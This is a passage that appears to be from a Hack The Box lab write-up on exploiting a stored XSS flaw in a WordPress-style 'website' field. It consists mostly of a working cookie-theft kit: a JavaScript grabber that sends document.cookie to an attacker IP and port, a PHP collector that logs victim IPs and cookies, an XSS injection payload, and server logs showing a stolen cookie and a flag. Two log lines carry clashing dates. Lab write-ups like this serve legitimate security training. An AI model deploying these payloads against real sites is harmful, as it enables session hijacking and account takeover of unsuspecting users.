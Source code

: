 Now that theres a vulnerable field found,  write a JS cookie grabber to a local file named `script.js`: 

```

new Image().src='http://10.10.14.47:9001/index.php?c=' + document.cookie;

```

Then, write a PHP script named `index.php`: 

``` 
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start an HTTP server with PHP in the same directory where `script.js` and `index.php` are:

```
$ php -S 0.0.0.0:9001
[Mon Sep 29 22:09:23 2025] PHP 8.2.29 Development Server (http://0.0.0.0:9001) started
```

Use the XSS payload in the "website" field to steal the cookie: 

`'><script src=http://IP:PORT/script.js></script> `

<img width="864" height="619" alt="image" src="https://github.com/user-attachments/assets/0527d96d-5e85-49ff-bc9a-06972f3624cf" />

```
$ php -S 0.0.0.0:9001
[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 [200]: (null) /script.js
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 [200]: GET /WebsiteField
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Closing
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Closing
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Accepted
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1669695315;%20flag=HTB{crXXXXXXXXXXXXXn1nj4} <------- flag
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Closing
```
---















